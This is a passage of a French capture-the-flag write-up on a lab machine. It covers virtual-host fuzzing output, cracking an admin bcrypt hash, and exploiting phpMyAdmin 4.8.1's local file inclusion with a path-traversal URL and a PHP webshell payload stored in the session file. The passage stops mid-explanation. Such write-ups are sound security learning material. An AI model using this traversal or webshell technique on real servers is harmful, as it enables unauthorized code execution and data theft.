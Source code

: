 ```plain
 :: URL              : http://192.168.56.119/
 :: Wordlist         : FUZZ: fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt
 :: Header           : Host: FUZZ.votenow.local
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 11713
________________________________________________

datasafe                [Status: 200, Size: 9500, Words: 439, Lines: 69]
:: Progress: [50000/50000] :: Job [1/1] :: 2023 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

Ce *datasafe.votenow.local* nous amène sur une installation de phpMyAdmin. Les identifiants récupérés précédemment permettent de s'y connecter.  

Dans une table *users* on trouve un hash bcrypt (misère) d'un certain *admin*. Il faut bien 40 minutes pour casser le hash qui correspond au clair *Stella* (la vitesse de cassage est entre 15 et 20 hashs à la seconde chez moi).  

Notre utilisateur SQL *votebox* ne dispose pas du privilège *FILE* qui aurait pu nous permettre de poser un webshell sur la machine.  

```plain
show grants;

GRANT USAGE ON *.* TO 'votebox'@'%' IDENTIFIED BY PASSWORD '*F8DCB98DA2D0C94434F0A37BFA19CDAB5F1BC5ED'	
GRANT ALL PRIVILEGES ON `votebox`.* TO 'votebox'@'%'	
GRANT ALL PRIVILEGES ON `votebox\_%`.* TO 'votebox'@'%'	
```

Armé du pass pour *admin*, on aimerait bien en faire quelque chose mais l'authentification par mot de passe étant bloqué on ne peut pas aller plus loin...  

En fait la version du *phpMyAdmin* est la 4.8.1 qui est vulnérable à [une faille d'inclusion locale pouvant amener à de l'exécution de code](https://www.exploit-db.com/exploits/50457).  

La vulnérabilité nécessite d'être authentifié et ça tombe bien vu que c'est notre cas. L'exploitation se fait de cette façon :  

*http://datasafe.votenow.local/index.php?target=db\_sql.php%253f/../../../../../../etc/passwd*  

L'exploit pour obtenir la RCE poste une requête du type  

```plain
select 'php system($_GET[&quot;cmd&quot;]); ?';
```

sur */import.php* puis il inclut le fichier de cookie présent sur le serveur (qui est nommé d'après la valeur du cookie *phpMyAdmin* donné lors de la connexion).  

L'idée c'est que la requête SQL est stockée dans la session qui est ensuite incluse.  

On a donc une requête qui ressemble à ça :  
